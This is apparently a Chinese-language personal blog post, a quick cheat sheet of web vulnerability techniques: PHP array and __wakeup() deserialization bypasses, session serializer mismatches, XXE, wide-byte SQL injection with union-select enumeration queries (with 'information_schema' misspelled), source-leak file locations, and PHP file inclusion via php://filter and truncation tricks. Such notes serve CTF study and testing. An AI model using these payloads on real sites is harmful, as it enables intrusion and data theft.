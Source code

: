 ```yaml
---
title: Web的漏洞整理
date: 2018-02-19 15:35:52
tags: [Web,漏洞]
categories:
thumbnail:
---
```


# Web相关的漏洞简单整理
想起多少写多少。。。
1. ### PHP数组绕过

    碰到有检测参数是否为数组，可以构建`file[key]=value&file[key2]=value2`这样的报文构建payload对象来绕过

2. ### PHP序列化

    生效范围：PHP5 < 5.6.25 PHP7 < 7.0.10  
    `O:4:"Demo":1:{s:4:"data";s:15:"malicious value";}`反序列化的时候如果将第一个4改为较大的数即可绕过`__wakeup()`

3. ### PHP序列化+session

    注意以下几个函数
    ```php
    ini_set('session.serialize_handler', 'php');
    ini_set('session.serialize_handler', 'php_binary');
    ini_set('session.serialize_handler', 'php_serialize');
    ```
    在不同页面靠session传值，如果以上函数出现且设置的值不同，则可能存在该漏洞，可使用`session_encode()`函数查看不同序列化引擎的不同结果

4. ### XXE

    注意是否有类似json的交互，content-type是否可改动

5. ### 注入

    反斜杠使单引号失效的解决方法：在单引号前加%df

    ```mysql
    order by #测列数
    and 1=2 union select 1,2,3 # 测可显示列
    select table_name from infomation_schema.tables where table_schema=database() #获取表名
    select group_concat(table_name) from infomation_schema.tables where table_schema=database() #获取所有表名
    select group_concat(column_name) from infomation_schema.columns where table_name=char() #获取所有字段名
    ```

    ​

6. ### 源码泄漏

    一般网站都会有的防爬文件robots.txt

    Apache的.htaccess文件

    文件后缀.filename.swp .bak之类

    Git遗留

1. ### PHP文件包含

    如果猜测代码有include函数存在，且可以`include(any.php)`，则可以绕过php的解析读取到源码，最通常的一种做法就是使用php://filter
    例如：

    ```php
    php://filter/read=convert.base64-encode/resource=exp.php
    ```

    或者使用
    1. `data://`
    2. `php://input`
    3. 00截断
    4. ./构造长目录截断，win下>256字节，linux下>4096字节，<font color=darkred>要求php版本小于5.2.8</font>

    详细参见[这里](https://zhuanlan.zhihu.com/p/26308699)